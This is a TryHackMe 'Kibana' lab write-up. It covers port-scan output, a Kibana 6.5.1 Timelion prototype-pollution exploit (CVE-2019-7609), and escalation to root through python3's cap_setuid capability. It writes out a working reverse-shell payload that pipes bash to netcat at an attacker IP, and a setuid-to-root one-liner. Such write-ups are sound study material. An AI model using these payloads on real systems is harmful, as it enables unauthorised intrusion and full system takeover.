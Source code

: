* * *
 ### LAB: KIBANA
 ### PLATFORM: THM
* * *
![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/265763d7-294c-4777-adbf-b560b0da6ce4)

### ENUMERATION

- Rustscan's details
      
      Open 10.10.97.58:80
      Open 10.10.97.58:5044
      Open 10.10.97.58:5601
      [~] Starting Script(s)
      [>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")
      
      Discovered open port 22/tcp on 10.10.97.58
      Discovered open port 80/tcp on 10.10.97.58
      Discovered open port 5601/tcp on 10.10.97.58
      Discovered open port 5044/tcp on 10.10.97.58
      Completed Connect Scan at 02:14, 0.25s elapsed (4 total ports)
      Initiating Service scan at 02:14
      Scanning 4 services on 10.10.97.58
      Completed Service scan at 02:14, 27.85s elapsed (4 services on 1 host)
      NSE: Script scanning 10.10.97.58.
      NSE: Starting runlevel 1 (of 3) scan.
      Initiating NSE at 02:14
      Completed NSE at 02:14, 10.90s elapsed
      NSE: Starting runlevel 2 (of 3) scan.
      Initiating NSE at 02:14
      Completed NSE at 02:14, 0.57s elapsed
      NSE: Starting runlevel 3 (of 3) scan.
      Initiating NSE at 02:14
      Completed NSE at 02:14, 0.00s elapsed
      Nmap scan report for 10.10.97.58
      Host is up, received syn-ack (0.24s latency).
      Scanned at 2024-01-27 02:14:07 EST for 39s
      
      PORT     STATE SERVICE      REASON  VERSION
      22/tcp   open  ssh          syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
      | ssh-hostkey: 
      |   2048 9d:f8:d1:57:13:24:81:b6:18:5d:04:8e:d2:38:4f:90 (RSA)
      | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDdVrdscXW6Eaq1+q+MgEBuU8ngjH5elzu6EOX2UJzNKcvAgxLrV0gCtWb4dJiJ2TyCLmA5lr0+8/TCInbcNfvXbmMEjxv0H3mi4Wjc/6wLECBXmEBvPX/SUyxPQb9YusTj70qGxgyI6SCB13TKftGeHOn2YRGLkudRF5ptIWYZqRnwlmYDWvuEBotWyUpfC1fGEnk7iH6gr3XJ8pwhY8wOojWaXEPsSZux3iBO52GuHILC14OiR/rQz9jxsq4brm6Zk/RhPCt1Ct/5ytsPzmUi7Nvwz6UoR6AeSRSHxOCnNBRQc2+5tFY7JMBBtvOFtbASOleILHkmTJBuRK3jth5D
      |   256 e1:e6:7a:a1:a1:1c:be:03:d2:4e:27:1b:0d:0a:ec:b1 (ECDSA)
      | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBD2fQ/bb8Gwa5L5++T3T5JC7ZvciybYTlcWE9Djbzuco0f86gp3GOzTeVaDuhOWkR6J3fwxxwDWPk6k7NacceG0=
      |   256 2a:ba:e5:c5:fb:51:38:17:45:e7:b1:54:ca:a1:a3:fc (ED25519)
      |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJk7PJIcjNmxjQK6/M1zKyptfTrUS2l0ZsELrO3prOA0
      80/tcp   open  http         syn-ack Apache httpd 2.4.18 ((Ubuntu))
      | http-methods: 
      |_  Supported Methods: GET HEAD POST OPTIONS
      |_http-server-header: Apache/2.4.18 (Ubuntu)
      |_http-title: Site doesn't have a title (text/html).
      5044/tcp open  lxi-evntsvc? syn-ack
      5601/tcp open  esmagent?    syn-ack
      | fingerprint-strings: 
      |   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, X11Probe: 
      |     HTTP/1.1 400 Bad Request
      |   FourOhFourRequest: 
      |     HTTP/1.1 503 Service Unavailable
      |     retry-after: 30
      |     content-type: text/html; charset=utf-8
      |     cache-control: no-cache
      |     content-length: 30
      |     Date: Fri, 26 Jan 2024 23:09:44 GMT
      |     Connection: close
      |     Kibana server is not ready yet
      |   GetRequest: 
      |     HTTP/1.1 503 Service Unavailable
      |     retry-after: 30
      |     content-type: text/html; charset=utf-8
      |     cache-control: no-cache
      |     content-length: 30
      |     Date: Fri, 26 Jan 2024 23:09:34 GMT
      |     Connection: close
      |     Kibana server is not ready yet
      |   HTTPOptions: 
      |     HTTP/1.1 503 Service Unavailable
      |     retry-after: 30
      |     content-type: text/html; charset=utf-8
      |     cache-control: no-cache
      |     content-length: 30
      |     Date: Fri, 26 Jan 2024 23:09:35 GMT
      |     Connection: close
      |_    Kibana server is not ready yet
      

- Port 5601 provides Kibana as a service and the version `6.5.1` is vulnerable to Prototype Pollution.Prototype pollution is a vulnerability that is specific to programming languages with prototype-based inheritance (the most common one being JavaScript)

   ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/a80efcb8-a2b9-4f8a-8e5a-6f438d8049c1)

-   To gain rce with Timelion,I got this code from this <a href="https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/">page</a> to gain rce,
  The code to get a rev shell
 `.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.8.158.229 1337 >/tmp/f");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')`

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/1924e4f4-6784-4093-ac93-b2ff81fc1e25)

- To activate the code,click on canvas,now we have a reverse shell
 
  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/e04194d1-92df-402a-844c-ead917068c78)

### PRIVESC WITH CAPABILITIES

- To check for binaries with capabilities,use `getcap -r / 2</dev/null`,Python3 has a cap_setuid capability which will allow us to setuid of users

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/7a01dfb3-6384-425d-a712-31c0ecdad1ac)

- We can escalate privileges by setting the uid of our current user to 0 which is root,I used this payload   
  `./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'`

- Root access
  
     ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/3702df4b-927e-49e6-9dc3-251d7d730b76)
